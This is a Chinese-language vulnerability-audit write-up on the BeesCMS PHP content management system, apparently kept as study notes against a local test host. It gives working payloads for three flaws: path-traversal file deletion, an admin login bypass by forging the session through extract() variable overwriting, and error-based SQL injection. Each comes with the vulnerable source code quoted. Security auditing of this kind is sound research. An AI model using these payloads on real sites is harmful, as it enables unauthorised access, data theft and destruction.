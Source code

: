 第一套审计的php,cms,希望挖的到洞

seay 先扫
### 任意文件删除漏洞
##### 漏洞url
/admin/admin_ajax.php
##### payload
`http://audit:81/beescms/admin/admin_ajax.php?action=del_pic&value=../../../../../../../../../../../../../../../1.php`
##### 相关代码
```php
elseif($action=='del_pic'){
    phpinfo();
$file=CMS_PATH.'upload/'.$value;
	 @unlink($file);
	die("图片成功删除");
}
```

---
借鉴
### 后台登录绕过


##### 漏洞url
包含了 `include/init.php` 的路径
##### payload
`_SESSION[login_in]=1&_SESSION[admin]=1&_SESSION[login_time]=8888888888888`
##### 相关代码
```php
//检查登陆
if(!is_login()){header('location:login.php');exit;}
// is_login() 的实现
function is_login(){
	if($_SESSION['login_in']==1&&$_SESSION['admin']){
		if(time()-$_SESSION['login_time']>3600){
			login_out();
		}else{
			$_SESSION['login_time']=time();
			@session_regenerate_id();
		}
		return 1;
	}else{
		$_SESSION['admin']='';
		$_SESSION['admin_purview']='';
		$_SESSION['admin_id']='';
		$_SESSION['admin_time']='';
		$_SESSION['login_in']='';
		$_SESSION['login_time']='';
		$_SESSION['admin_ip']='';
		return 0;
	}
}
```

如果存在变量覆盖则可以伪造session,全局搜索 `extract` 函数,在 `includes/init.php` 
```php
if (isset($_REQUEST)){$_REQUEST  = fl_value($_REQUEST);}
    $_COOKIE   = fl_value($_COOKIE);
	$_GET = fl_value($_GET);
@extract($_POST);
@extract($_GET);
@extract($_COOKIE);
```

##### 漏洞分析
很直接的进行了变量覆盖,只要在包含了该文件下的目录里发送
`_SESSION[login_in]=1&_SESSION[admin]=1&_SESSION[login_time]=8888888888888` 即可成功伪造session


### SQL注入
##### 漏洞url
`admin/admin_ajax.php`
##### payload
`?action=order&table=admin&field=admin_mail=111 or updatexml(1,concat(0x23,user()),1)--+`
##### 相关代码
```php
elseif($action=='order'){
	$table=$_REQUEST['table'];
	$field = $_REQUEST['field'];
	$id = intval($_REQUEST['id']);
	$sql="update ".DB_PRE."{$table} set {$field}=".intval($value)." where id={$id}";
	$GLOBALS['mysql']->query($sql);
	//更新缓存
		if($table=="lang"){	
			$sql="select*from ".DB_PRE."{$table} order by {$field} desc";
			$rel=$GLOBALS['mysql']->fetch_asc($sql);
		$cache_file=DATA_PATH.'cache/lang_cache.php';
		$str="<?php\n\$lang_cache=".var_export($rel,true).";\n?>";
		}elseif($table=="channel"){
			$sql="select*from ".DB_PRE."{$table} order by {$field} desc";
			$rel=$GLOBALS['mysql']->fetch_asc($sql);
			$cache_file=DATA_PATH.'cache_channel/cache_channel_all.php';
			$str="<?php\n\$channel=".var_export($rel,true).";\n?>";
		}
		creat_inc($cache_file,$str);
	
}
```

##### 漏洞分析
对`field` 没有进行鉴权,直接拼接导致漏洞

